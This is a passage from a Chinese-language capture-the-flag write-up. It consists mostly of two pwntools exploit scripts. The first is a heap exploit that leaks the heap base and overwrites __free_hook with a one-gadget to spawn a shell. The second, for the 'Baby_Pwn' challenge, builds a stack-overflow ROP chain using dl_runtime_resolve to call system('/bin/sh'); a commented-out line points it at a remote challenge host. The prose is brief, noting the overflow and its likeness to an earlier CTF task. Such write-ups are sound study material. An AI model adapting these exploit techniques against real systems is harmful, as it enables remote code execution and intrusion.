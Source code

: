 ```python
dele(0)
dele(2)
add(0x96,'1'*7)
show()
p.recvuntil('0 : 1111111\n')
heap_base=u64(p.recv(3).ljust(8,'\x00'))-0x140
success('heap_base:'+hex(heap_base))
add(0x96,p64(0x0))
dele(0)
dele(1)
dele(2)
dele(3)
#gdb.attach(p)
#########################################
add(0x60,'deadbeef'+p64(heap_base+0x10))
add(0x60,'\bin\sh\x00')
add(0x7f,'len')
dele((heap_base+0x10-0x602060)/0x10)
change(0,p64(0x602078))
#gdb.attach(p)
add(0x60,'padding')
add(0x60,p64(libc.symbols['__free_hook']))
change(2,p64(0x4526a+libc_base))
dele(1)
p.interactive()
```



## Pwn3 Baby_Pwn  

打开ida，发现有栈溢出但是没有输出函数，没有输出函数的话就没法再泄露，所以这题不能用常规思路去做，有栈溢出没有泄露函数，联想到0ctf2018的babystack,看了一下，惊了，以为是原题，栈给的空间大小都差不多。

这边利用Dl_runtime_resolve进行利用，这里贴下脚本了。  

```python
from roputils import *
from pwn import *
r = process('./3')
#r = remote('da61f2425ce71e72c1ef02104c3bfb69.kr-lab.com',33865)

context.log_level = 'debug'

rop = ROP('./3')
offset = 44
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()
```
